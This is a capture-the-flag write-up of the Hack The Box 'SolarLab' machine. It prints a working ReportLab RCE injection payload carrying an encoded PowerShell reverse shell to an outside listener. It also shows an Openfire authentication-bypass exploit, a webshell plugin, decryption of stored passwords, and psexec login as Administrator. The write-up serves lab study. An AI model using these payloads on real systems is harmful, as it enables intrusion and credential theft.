

---
tags:
  - htb
---
# HTB: [SolarLab](https://app.hackthebox.com/machines/SolarLab)

This Windows machine is both a webserver and a development server for a company working on an XMPP chat app. It's also hosting an HR-oriented report-generation service with a RCE exploit, which allows an initial foothold. That grants access to the internal instance of the chat app, which itself has both an authentication-bypass vulnerability and an RCE flaw. With shell access as that user, encrypted credentials are discoverable. Once decrypted, that password can also be used for the Administrator account, completing system access.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed Jun  5 09:51:22 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Nmap scan report for t (10.10.11.16)
Host is up (0.093s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
|   date: 2024-06-05T15:51:50
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  5 09:52:28 2024 -- 1 IP address (1 host up) scanned in 66.31 seconds
```

#### 80/tcp-http

```console
$ whatweb http://solarlab.htb
http://solarlab.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.24.0], IP[10.10.11.16], JQuery[2.1.0], Meta-Author[Jewel Theme], Modernizr[2.8.0.min], Script[text/javascript], Title[SolarLab Instant Messenger], X-UA-Compatible[IE=edge], nginx[1.24.0]
```

#### 445/tcp-smb

```console
$ smbclient -L t
Password for [WORKGROUP\kali]:
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Documents       Disk
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to t failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
  kali@kali:~/htb-solarlab
$ smbclient \\\\t\\Documents
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 08:47:14 2024
  ..                                 DR        0  Fri Apr 26 08:47:14 2024
  concepts                            D        0  Fri Apr 26 08:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 04:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 06:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 13:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 13:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 13:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 04:35:57 2023
                7779839 blocks of size 4096. 1894144 blocks available
smb: \>
```


Wow:


### 6791/tcp-http

```console
$ whatweb http://t:6791
http://t:6791 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.24.0], IP[10.10.11.16], RedirectLocation[http://report.solarlab.htb:6791/], Title[301 Moved Permanently], nginx[1.24.0]
ERROR Opening: http://report.solarlab.htb:6791/ - no address for report.solarlab.htb
```

Added `report.solarlab.htb` to `/etc/hosts`.

```console
$ whatweb http://report.solarlab.htb:6791
http://report.solarlab.htb:6791 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.24.0], IP[10.10.11.16], PasswordField[password], Title[Login - ReportHub], nginx[1.24.0]
```


`feroxbuster`:

```console
200      GET       85l      157w     2045c http://report.solarlab.htb:6791/login
200      GET      226l     1443w   123336c http://report.solarlab.htb:6791/static/css/images/logo.png
200      GET       85l      157w     2045c http://report.solarlab.htb:6791/
302      GET        5l       22w      229c http://report.solarlab.htb:6791/logout => http://report.solarlab.htb:6791/login?next=%2Flogout
302      GET        5l       22w      235c http://report.solarlab.htb:6791/dashboard => http://report.solarlab.htb:6791/login?next=%2Fdashboard
```

```http
GET /login?next=%2Fdashboard HTTP/1.1
Host: report.solarlab.htb:6791
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlBsZWFzZSBsb2cgaW4gdG8gYWNjZXNzIHRoaXMgcGFnZS4iXX1dfQ.ZmCP0g.gs6kAqxa7wJ9zMBwMApffp6-Bu8
Connection: close
```

Decoded session cookie: `{"_flashes":[{" t":["message","Please log in to access this page."]}]}fý…`

## RCE

The login form says whether the user exists or not. Using the XLSX file recovered via SMB, I try some of the included usernames and discovered that `claudias` is a valid user. But, the password listed there is not correct. Also valid: `alexanderk` and `blakeb`. The password `ThisCanB3typedeasily1@` from the spreadsheet works for `blakeb`.



The `/leaveRequest` page allows generation of a PDF, including an attached image for the "signature":


This was generated via [ReportLab](https://www.reportlab.com/), which has at least one RCE vulnerability. This [PoC for CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733) allows accessing the `os` Python module in the global context to achieve code exection.

I try to inject a `ping` command to test, but I get a "Character limit exceeded" error:


After a very long time trying to minify the Python and get under the character limit, I realized I could inject the exploit into the `travel_request` ("Destination") parameter instead of the `user_input` ("Justification") parameter!

Final payload for foothold:

```console
------WebKitFormBoundarycYcpxTXsv8b8JeQA
Content-Disposition: form-data; name="leave_request"
<font color="[[getattr(pow,X('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA') for X in [orgTypeFun('X',(str,),{'mutated':1,'startswith':lambda self,x: False,'__eq__':lambda self,x:self.mutate() and self.mutated<0 and str(self) == x,'mutate': lambda self: {setattr(self,'mutated',self.mutated-1)},'__hash__': lambda self: hash(str(self))})]] for orgTypeFun in [type(type(1))]] and 'red'">
```

```console
PS C:\Users\blake\Documents\app> whoami
solarlab\blake
PS C:\Users\blake\Documents\app> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## PE

Found some creds:

```sql
$ sqlite3 users.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
user
sqlite> select * from user;
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard
```

```console
╔══════════╣ Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    blake::SOLARLAB:1122334455667788:ba4ab2b6cf438223bce0d0691ac1a510:01010000000000007b93e1ce79b7da0124e7bb324d4b5a0b000000000800300
03000000000000000000000000020000042af82b54d4f9dffe8b087199525fb50a128437c11ced7dbcb26cd222124ef780a00100000000000000000000000000000000000090
000000000000000000000
```

I see that [OpenFire](https://www.igniterealtime.org/projects/openfire/) is running on this box, probably bound to port 9090. There is a [PoC exploit](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT?tab=readme-ov-file) for that service.

I'll set up `ligolo-proxy` to I can access the port that's listening on 127.0.0.1 via my Kali machine on loopback address 240.0.0.1.

```console
$ nc -nvz 240.0.0.1 9090
(UNKNOWN) [240.0.0.1] 9090 (?) open
```


I'll try the exploit.

```console
$ python3 ./CVE-2023-32315.py -u http://240.0.0.1:9090
 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ
[*] Launching exploit against: http://240.0.0.1:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW
```

It worked!


For RCE as the user running Openfire, theres a [PoC for CVE-2023-32315](https://github.com/miko550/CVE-2023-32315) I can try. It involves uploading a malicious plugin that creates a webshell. I upload `openfire-management-tool-plugin.jar` and navigate to the plugin interface at `plugins/openfire-management-tool-plugin/cmd.jsp?action=command`, and it works:


I use the same payload as before:

```powershell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

And it works:

```powershell
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.16] 56164
whoami
solarlab\openfire
PS C:\Program Files\Openfire\bin> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```

WinPEAS:

```text
╔══════════╣ Modifiable Services
╚ Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
...

════════════════════════════════════╣ Services Information ╠════════════════════════════════════

╔══════════╣ Interesting Services -non Microsoft-
╚ Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windo
ws-hardening/windows-local-privilege-escalation#services
    Openfire(Ignite Realtime RTC Community - Openfire)["C:\Program Files\Openfire\bin\openfire-service.exe"] - Auto - Running
    File Permissions: openfire [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files\Openfire\bin (openfire [AllAccess])
    Openfire Service
```

From `C:\Program Files\Openfire\embedded-db\openfire.script`:

```sql
CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'                                 ...
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTE
GER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICA
TIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
...
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL
,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@s
olarlab.htb','001700223740785','0') 
...
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)  
```

Openfire stores its passwords encrypted, not hashed. From [this discussion](https://hashcat.net/forum/archive/index.php?thread-2399.html):

> Had a quick look at what OpenFire does and it is basically true what we said, but it does use SHA1 *AND* blowfish, basically.
> What one needs to have to decrypt the encrypted password (yes, they are encrypted not hashed, but there is also a SHA1 hash of the passwordKey field involved) is a passwordKey + the encrypted password. The first 8 bytes (16 chars, 8 hex) of the encrypted password is the initialization vector, the blowfish CBC key is stored in the database as "passwordKey" (<- this is SHA1 hashed before used as key to blowfish CBC).

There's a [tool](https://github.com/c0rdis/openfire_decrypt) available to do this.

```console
$ git clone https://github.com/c0rdis/openfire_decrypt
Cloning into 'openfire_decrypt'...
remote: Enumerating objects: 15, done.
remote: Total 15 (delta 0), reused 0 (delta 0), pack-reused 15
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (4/4), done.

$ cd openfire_decrypt/
  kali@kali:~/htb-solarlab/openfire_decrypt (master)

$ javac OpenFireDecryptPass.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

$ java OpenFireDecryptPass
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[-] Please specify the encypted password and the "passwordKey"

$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```

That password works from the `Administrator` account:

```console
$ nxc smb t -u Administrator -p 'ThisPasswordShouldDo!@'
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

Impacket works for shell access:

```console
$ impacket-psexec Administrator:'ThisPasswordShouldDo!@'@t
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
[*] Requesting shares on t.....
[*] Found writable share ADMIN$
[*] Uploading file eFxaMLfr.exe
[*] Opening SVCManager on t.....
[*] Creating service ifeW on t.....
[*] Starting service ifeW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32> type c:\users\administrator\desktop\root.txt
d9d4fe...
```
